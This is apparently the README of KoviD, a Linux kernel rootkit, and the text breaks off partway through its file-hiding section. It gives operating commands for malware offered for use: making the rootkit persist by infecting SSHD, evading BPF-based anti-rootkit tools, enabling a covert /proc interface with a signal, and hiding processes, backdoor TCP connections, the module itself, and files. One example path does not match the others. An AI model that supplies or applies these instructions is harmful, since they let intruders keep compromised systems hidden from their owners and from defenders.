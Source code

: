 ### Persistence
KoviD offers persistence via Volundr. 
It can infect executables, like SSHD, to ensure KoviD loads on reboot. 
You can also use your preferred tool, Volundr use here is just a suggestion.

### Base address
KoviD allows for the retrieval of base addresses of other executables without needing to open /proc/<pid>/maps.

### BPF
KoviD can evade few anti-rootkit tools that rely on BPF (Berkeley Packet Filter) for detecting rootkits.
Tested against: https://github.com/pathtofile/bpf-hookdetect.git

### Tainted

```bash
sudo insmod ./kovid.ko
cat /proc/sys/kernel/tainted
```

## Usage
/proc/867530 interface
To enable the /proc/867530 interface, use the command:
```bash
kill -SIGCONT 31337
```
The interface will disable itself after 120 seconds and can be reactivated using the same command.

# Tasks
 You can hide/unhide processes using the /proc/867530 interface.
 For example, to hide a task, run: $ echo 14886 >/proc/867430
 If a task is a backdoor that needs tcp hiding, run:
 ```bash
echo "-bd <pid>" >/proc/867530
```
 Unhiding is the same as for regular tasks:
 ```bash
echo "<PID>" >/proc/867530
```
### Hide module
To hide the KoviD module, use the command: 
```bash
echo -h >/proc/867530
```
In release mode, the module is hidden by default, and a key can be displayed by running 
```bash
cat /proc/867530
```
### Hide/unhide/list files and directories
To hide a file or directory, use: 
```bash
echo '-a name' >/proc/867530
```
To unhide use:
